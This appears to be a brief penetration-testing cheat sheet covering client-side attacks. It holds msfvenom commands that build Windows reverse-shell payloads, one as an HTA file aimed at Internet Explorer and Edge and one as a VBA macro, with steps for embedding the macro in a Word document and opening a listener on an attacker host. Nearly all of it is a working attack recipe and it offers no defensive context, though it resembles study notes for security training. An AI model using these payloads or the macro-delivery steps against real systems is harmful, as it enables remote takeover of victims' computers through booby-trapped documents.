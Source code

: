### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save as doc,docm,docx
3. open a listener
```
